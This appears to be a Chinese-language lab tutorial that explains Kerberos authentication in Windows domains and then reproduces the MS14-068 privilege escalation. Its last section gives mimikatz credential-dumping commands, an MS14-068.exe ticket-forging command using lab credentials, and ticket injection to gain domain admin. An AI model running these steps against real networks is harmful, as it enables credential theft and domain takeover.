# 域环境2-2

> 本文作者：[XiDanEr](https://github.com/xidaner)
> 更新日期 2021年8月31日

---

## 前言

本章主要介绍Kerberos协议

* 介绍域中 Kerberos协议 认证流程

* MS14-068原理

* 复现漏洞

---

## Kerberos


> 前语： `kerberos` 主要是用来做网络通信时候的身份认证,最主要的特点就是复杂，很 TM 复杂

`Kerberos`起源于希腊神话，是一支守护着冥界长着3个头颅的神犬，在 `keberos Authentication` 中，Kerberos的3个头颅代表中认证过程中涉及的3方：`Client`、`Server`和`KDC`。


### Kerberos 协议

Kerberos 是一种网络认证协议，其设计目标是通过密钥系统为客户机 / 服务器应用程序提供强大的认证服务。该认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，并假定网络上传送的数据包可以被任意地读取、修改和插入数据。

可以用于防止窃听、防止重放攻击、保护数据完整性等场合，是一种应用对称密钥体制进行密钥管理的系统。支持 SSO(单点登录)。Kerberos 的扩展产品也使用公开密钥加密方法进行认证。




当有 N 个人使用该系统时，为确保在任意两个人之间进行秘密对话，系统至少保存有它与每个人的共享密钥，所需的最少会话密钥数为 N 个。


Kerberos 协议基于对称密码学，并需要一个值得信赖的第三方。Kerberos 协议的扩展可以为认证的某些阶段提供公钥密码学支持。所以Kerberos 协议比 NTLM 协议更安全、更灵活，更有效。

###  基本原理

kerberos 解决的是“`如何证明某个人确确实实就是他或她所声称的那个人`”的问题。~~(类似于，请证明你是你，你妈是你妈)~~


于是乎，如何进行 身份校验呢，我们采用这样的方法：如果一个秘密（secret）仅仅存在于A和B，那么有个人对B声称自己就是A，B通过让A提供这个秘密来证明这个人就是他或她所声称的A。

这个过程实际上就涉及到3个重要的关于 身份校验 的方面：

* Secret如何表示。

* A如何向B提供Secret。

* B如何识别Secret。

基于这3个方面，我们把Kerberos Authentication进行最大限度的简化：整个过程涉及到Client和Server，他们之间的这个Secret我们用一个Key（KServer-Client）来表示。Client为了让Server对自己进行有效的认证，向对方提供如下两组信息


### 简要概括认证过程

对于一个 `Windows Domain` 来说，`Domain Controller`扮演着`KDC`的角色。KDC维护着一个存储着该Domain中所有帐户的`Account Database`（一般地，这个Account Database由AD来维护），也就是说，他知道属于每个`Account` 的名称和派生于该 `Account Password` 的 `Master Key`。而用于Client和Server相互认证的SServer-Client就是有KDC分发。

客户端要访问服务器的资源，需要首先购买服务端认可的 ST 服务票据。也就是说，客户端在访问服务器之前需要预先买好票，等待服务验票之后才能入场。但是这张票不能直接购买，需要一张 TGT 认购权证(Ticket Granting Ticket)。也就是说，客户端在买票之前必须先获得一张 TGT 认购权证。这张 TGT 认购权证和 ST 服务票据均由 KDC 发售。

他的整个认证过程涉及到三方：`客户端`、`服务端`和 `KDC（Key Distribution Center）`。在 Windows 域环境中，由 DC(域控)来作为 KDC。

`Kerberos` 认证过程如下:




1. client 向 kerberos 服务请求，希望获取访问 server 的权限。 kerberos 得到了这个消息，首先得判断 client 是否是可信赖的，也就是白名单黑名单的说法。这就是 AS 服务完成的工作，通过在 AD 中存储黑名单和白名单来区分 client。成功后，返回 AS 返回 TGT 给 client。

2. client 得到了 TGT 后，继续向 kerberos 请求，希望获取访问 server 的权限。kerberos 又得到了这个消息，这时候通过 client 消息中的 TGT，判断出了 client 拥有了这个权限，给了 client 访问 server 的权限 ticket。

3. client 得到 ticket 后，终于可以成功访问 server。这个 ticket 只是针对这个 server，其他 server 需要向 TGS 申请。


**Kerberos 认证所参与的角色**

- 访问服务的 `Client`
- 提供服务的 `Server`
- `KDC`(`Key Distribution Center`,密钥分发中心) = DC(`Domain Controller`)

其中 `KDC` 服务默认安装在一个域的域控中，而 `Client` 和 `Server` 为域内的用户或者是服务，如 `HTTP` 服务、SQL 服务。在 `Kerberos` 中 `Client` 是否有权限访问 `Server` 端的服务由 `KDC` 发放的票据来决定

**认证中涉及到的部分词汇**

- Authentication Server : 为 Client 生成 TGT 的服务。 AS 的作用是验证 Client 端的身份，验证通过就会给一个 TGT 票据给 Client
- AD(Account Database) : 活动目录,存储所有 Client 白名单，只有存在于白名单的 Client 才能申请到 AS 给的 TGT，类似于本机 SAM,在 DC 上
- DC(Domain Controller) : 域控
- KDC(Key Distribution Center) : 密钥分发中心，由域控担任
- KAS(Kerberos Authentication Service) : Kerberos 认证服务
- TGT(Ticket Granting Ticket) : 入场券，通过入场券能够获得票据，是一种临时凭证的存在
- TGS(Ticket Granting Server) : 为 client 生成某个服务的 ticket。 TGS 的作用是通过 AS 发送给 Client 的 TGT 换取访问 Server 端的 ST 票据。ST 也有资料称为 TGS Ticket，为了和 TGS 区分，此处使用 ST
- ST(Ticket) : 票据,是网络对象互相访问的凭证。
- Session Key : 会话密钥，只有 Client 和 TGS 知道
- krbtgt 账户：每个域控制器都有一个 krbtgt 的用户，是 KDC 的服务账户，用来创建票据授予服务（TGS）加密的密钥。


#### 获得认购权证

首先，我们来看看客户端如何获得 `TGT` 认购权证。TGT 是 KDC 的 KAS 认证服务（Kerberos Authentication Service）发放的。

1. 简单来讲首先Client向KDC发送一个对SServer-Client的申请。这个申请的内容可以简单概括为“`我是某个Client，我需要一个Session Key用于访问某个Server` ”。其中该请求主要包括两部分内容，明文形式的用户名和用用户秘钥加密原始 `Authenticator` 后得到的加密后 `Authenticator`(Authenticator 是客户端和服务端可以用于验证对方身份的一个东西)。

2. KDC在接收到这个请求的时候，生成一个Session Key，为了保证这个Session Key仅仅限于发送请求的Client和他希望访问的Server知晓，KDC会为这个Session Key生成两个Copy，分别被Client和Server使用。然后从Account database中提取Client和Server的Master Key分别对这两个Copy进行对称加密。对于后者，和Session Key一起被加密的还包含关于Client的一些信息。



#### 获得 ST 服务票据

此时 KDC 并没有真正去认证这个发送请求的Client是否真的就是那个他所声称的那个人，就把Session Key发送给他，会不会有什么问题？
如果另一个人（比如Client B）声称自己是Client A，他同样会得到Client A和Server的Session Key，这会不会有什么问题？实际上不存在问题，因为Client B声称自己是Client A，KDC就会使用Client A的Password派生的Master Key对Session Key进行加密，所以真正知道Client A 的Password的一方才会通过解密获得Session Key。



如果现在它需要访问某台服务器的资源，它就需要凭借这张 TGT 认购凭证向 KDC 购买相应的入场券。这里的入场券也有一个专有的名称——ST 服务票据（Service Ticket）。具体来说，ST 是通过 KDC 的另一个服务 TGS（Ticket Granting Service）出售的。

   1. 客户端先向 `TGS` 发送一个 `ST` 购买请求，该请求主要包含如下的内容：客户端用户名、通过 `Logon Session Key `加密的 `Authenticator、TGT` 和访问的服务器名(其实是服务)。

   2. `TGS` 接收到请求之后，通过自己的秘钥解密 TGT 并得到原始 `Logon Session Key`，然后通过 `Logon Session Key` 解密 `Authenticator` ，进而验证了对方的真实身份。`TGS` 完成对客户端的认证之后，会生成一个用 `Logon Session Key` 加密后的用于确保客户端-服务器之间通信安全的 `Service Session Key `会话秘钥。然后为该客户端生成 ST 服务票据。ST 服务票据主要包含两方面的内容：客户端用户信息和原始 `Service Session Key`，整个 `ST` 通过服务器密码派生的秘钥进行加密。最终两个被加密的 `Service Session Key` 和` ST` 回复给客户端


#### 用 ST 服务票据双向认证

**双向认证**（Mutual Authentication）

`Kerberos` 一个重要的优势在于它能够提供双向认证：`不但Server可以对Client 进行认证，Client也能对Server进行认证。`

此时如果`Client`需要对他访问的 `Server` 进行认证，会在它向 `Server` 发送的 `Credential` 中设置一个是否需要认证的 `Flag` 。 `Server` 在对 `Client` `认证成功之后，会把Authenticator` 中的 `Timestamp` 提出出来，通过 `Session Key` 进行加密，当 `Client` 接收到并使用 `Session Key` 进行解密之后，如果确认 `Timestamp` 和原来的完全一致，那么他可以认定 `Server` 正式他试图访问的 `Server` 。

那么为什么Server不直接把通过Session Key进行加密的Authenticator原样发送给Client，而要把Timestamp提取出来加密发送给Client呢？

原因在于防止恶意的监听者通过获取的Client发送的Authenticator冒充Server获得Client的认证。

---

#### 详细概括认证过程


当 Client 想要访问 Server 上的某个服务时，需要先向 AS 证明自己的身份，然后通过 AS 发放的 TGT 向 Server 发起认证请求，这个过程分为三块：

- The Authentication Service Exchange： Client 与 AS 的交互
   - AS_REQ
   - AS_REP
- The Ticket-Granting Service (TGS) Exchange： Client 与 TGS 的交互
   - TGS_REQ
   - TGS_REP
- The Client/Server Authentication Exchange： Client 与 Server 的交互
   - AP_REQ
   - AP_REP

**整体过程如图**



- **用户登录**

用户登录阶段，通常由用户(AA)输入`[用户名][密码]`信息，在客户端侧，用户输入的密码信息被一个单向 Hash 函数生成 Client 密钥，即 `AA` 的` NTLM Hash`：



- **请求身份认证**




- **客户端向 AS 发送请求认证**
    KRB-AS-REQ：Client 发送明文 `用户名 AA` 和 `Authenticator1` 信息到 KDC （Key Distribution Center）。Authenticator1 的内容为使用 Client 密码哈希加密的时间戳、Client ID、网络类型、加密类型等。
- **AS 确认客户端登录者身份**
    KRB-AS-REP：AS 收到用户认证请求后，AS 根据请求中的 `用户名 AA` 信息，从数据库中查找用户名是否存在。如果 `用户名 AA` 存在，则从 KDC 中可以获取 `用户 AA` 的密码，使用单向函数为该密码生成一个 `Client 密钥`（即NTLM Hash）。
    AS 生成随机字符串 `Client/TGS Session Key`，使用 `Client 密钥`(用户 AA 的密码 NTLM Hash)对 `Client/TGS Session Key` 加密得到 `sessionkey_as`；
    再使用 TGS 密钥(krbtgt 用户的 NTLM Hash)对 `Client/TGS Session Key` 、 `Client Info` 和 `Timestamp` 加密,得到 `TGT`（TGT票据）。
    将 `sessionkey_as` 和 `TGT` 一起返回给 Client。
    Client 收到 AS 的响应消息后，利用自身的 `Client 密钥`（AA 的 NTLM Hash）对 `sessionkey_as` 解密，这样就获取到 `Client/TGS Session Key`。
    - AS 的响应消息中有一条是属于 Client 的，有一条是 TGS 的。
    - TGT 的到期时间为 8 小时，如果超过了 8 小时，还需要重新申请 TGT，不能之间进入下一步获取 Ticket。
    - KDC 返回的 TGT 客户端是无法解密的，因为它没有 KDC Hash，如果有，我们就可以伪造黄金票据

- **请求授权访问服务**



   - **客户端向 TGS 发送请求服务授权请求**
     KRB-TGS-REQ：Client 收到 `sessionkey_as` 和 `TGT` 后，使用 `Client 密钥`（AA 的 NTLM Hash）对 `sessionkey_as` 解密就能得到 `Client/TGS Session Key`，然后使用 `Client/TGS Session Key` 对 Client Info 和 timestamp 加密得到 `Authenticator2`。
     将 `Authenticator2`、`TGT`、`Service ID`（要请求的服务 ID）发送给 KDC 中的 TGS。
     - 由于 TGT 是使用 `TGS 密钥`(krbtgt 的 NTLM Hash)加密的，Client 无法对 TGT 解密。
     - 如果假设这个数据被中间人窃取到，也无法在短时间内破解，因为 KDC 会校验时间戳。

   - **TGS 为 Client 响应服务授权票据**
     TGS-REP：TGS 收到请求后，检查 KDC 数据库中是否存在所请求的服务(`Service ID`)。如果存在，TGS 使用 `TGS 密钥`(krbtgt 的 NTLM Hash)解密 TGT，得到 `Client/TGS Session Key`、timestamp、Client info；同时使用从 TGT 中解密得到的 `Client/TGS Session Key` 去解密 `Authenticator2`，得到 Client info 和 timestamp。 比对 `Authenticator2` 和 `TGT` 的解密内容以验证通过。
       - TGS 比对 `Authenticator2` 包含的 `Client ID` 和 `TGT` 中的 `Client ID`
       - 比较时间戳（误差范围在2分钟）
       - 通过生命周期字段检查 TGT 是否过期
       - 检查 `Authenticator2` 已经不再 TGS 的缓存中
       - 若原始请求中的网络地址不为 NULL，比较 TGT 中的 IP 和请求的 IP

      验证成功后，随机生成 Client 所请求服务的会话密钥 `Client/Server Session Key`；

      使用 Server 密钥（即服务器计算机的NTLM Hash）对 `Client/Server Session Key`、 `Client Info`（包含 Client ID）、`TimeStamp` 加密得到 `Client-To-Server Ticket`（也称为 ST 票据）；

      使用 `Client/TGS Session Key` 对 `Client/Server Session Key` 加密得到 `sessionkey_tgs`

      最终将 `Client-To-Server Ticket`、`sessionkey_tgs` 返回给 Client。


- **请求服务**

    

    - **Client 向 SS(Service Server)发送服务请求**

        AP-REQ：Client 收到 `Client-To-Server Ticket`、`sessionkey_tgs` 之后，使用 `Client/TGS Session Key` 对 `sessionkey_tgs` 解密得到 `Client/Server Session Key`,然后使用 `Client/Server Session Key` 对 Client Info 和 timestamp 加密得到 `Authenticator3`

        将 `Authenticator3` 和 `Client-To-Server Ticket` 发送给所请求服务的服务器(`Service Server`)。

        - Ticket 客户端无法解密


    - **Service Server 响应 Client**

        AP-REP：Service Server 收到客户端的服务访问请求之后，利用 Server 密钥(Server 的 ntlm Hash)对 `Client-To-Server Ticket` 解密，提取出 `Client/Server SessionKey`、Client ID 等信息。

        Service Server 使用 `Client/Server SessionKey` 对 `Authenticator3` 解密得到 Client ID 和 TimeStamp。

        类似于 TGS，Service Server 也要做如下校验：
        - Client ID;
        - 时间戳；
        - ticket 是否过期；
        - 避免重放攻击，查看 Service Server 的 cache 是否包含 authenticator3；
        - 网络地址比较

        Service Server 发送最后的验证消息——用 `Client/Server SessionKey` 加密的 Timestamp 和 `Service ID` 数据包给 Client。

        Client 收到之后，使用缓存的 `Client/Server SessionKey` 解密提取 Timestamp 信息，然后确认该信息与 Client 发送的 Authenticator3 中的 Timestamp 信息是否一致。验证通过后，在定义的通讯周期内，Client 可以使用票据请求 Service。

        由此完成了 Client 和 Service Server 的双向认证。

        - Kerberos 协议设计的思路就是用来在不受信的环境下进行认证的协议。
        - krbtgt 账号的 NTLM Hash 理论上只存在于 KDC 中。这意味着 TGT 只能由 KDC 来解密。如果 krbtgt 账号的 NTLM Hash 泄露了，那么 TGT 就能被解密甚至伪造。伪造的 TGT 叫做黄金票据。
        - Ticket 是由服务器计算机本身的 NTLM Hash 加密的，Client 不能解密。如果该 Hash 泄露，那么就可以解密甚至伪造 Ticket。伪造的 Ticket 叫做白银票据。
        - 在上述的流程中，涉及到时间戳 timestamp，由于它的存在，才使得被第三方获取了加密信息 Authenticator1 、Authenticator2、TGT 不会在短时间内被暴力破解。timestamp 一般时间为8小时。
        - Kerberos 协议和 NTLM 协议都会使用 NTLM Hash 对生成的任意随机数加密，然后比对结果。 Kerberos 的主要区别在于添加了第三方——-KDC 参与到认证过程中。
        - Client info 中包含网络地址、Client ID 等信息

---

## MS14-068域权限提升漏洞总结

说到`ms14-068`,不得不说silver ticket，也就是银票。银票是一张tgs，也就是一张服务票据。服务票据是客户端直接发送给服务器，并请求服务资源的。如果服务器没有向域控dc验证pac的话，那么客户端可以伪造域管的权限来访问服务器。所以ms14-068的来源和银票是息息相关的。

### 漏洞复现

`MS14-068` 漏洞可以将一个普通域用户提升到域管权限，从而进行后续的横向渗透，该漏洞有几个必要条件：

* 域控上无 `KB3011780` 补丁
* 拥有一台域内机器的`控制权限`
* 拥有一个域账户的 `SID、账号、密码 /hash`

**工具下载**

- `Ms14-068.exe` 下载地址:https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

- `PSexec` 下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe

- `mimikatz` 下载地址:https://github.com/gentilkiwi/mimikatz/releases

---

#### 获取用户信息

如果当前用户为域用户，可以直接用 `whoami /user` 获取sid




如果不是只是本地用户可以用 `mimikatz` 抓取本地的域用户密码

> 记住mimikatz要有管理员权限不然无法抓取内存密码，可以以管理员权限运行。

1. 使用CS提权工具抓取密码和SID



2. 运行 `mimikatz` 抓取密码和SID



```
* Username : test1
* Domain   : TEST.COM
* Password : Abcd1234!@#$
```


#### 生成认证证书

利用 `ms14-068.exe` 工具生成伪造的 `kerberos` 协议认证证书

```
 MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>

ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip
```



> 上传文件 并尝试抓取信息

使用刚刚抓到的密码组合命令

```
MS14-068.exe -u  test1@test.com  -p Abcd1234!@#$ -s S-1-5-21-1112871890-2494343973-3486175548-1103 -d 192.168.91.11
```





#### 在内存中写入证书

利用 `mimikatz.exe` 将证书写入，从而提升为域管理员

```bash
log               //开启mimikatz的日志 会在当前目录下生成txt用于复制信息
kerberos::list   //查看当前凭证
kerberos::purge  //清除凭证
kerberos::list   //再次查看，确保无凭证
kerberos::ptc    //你的证书名字

kerberos::ptc TGT_test1@test.com.ccache
```



此时我们`list` 查看一下 导入成功

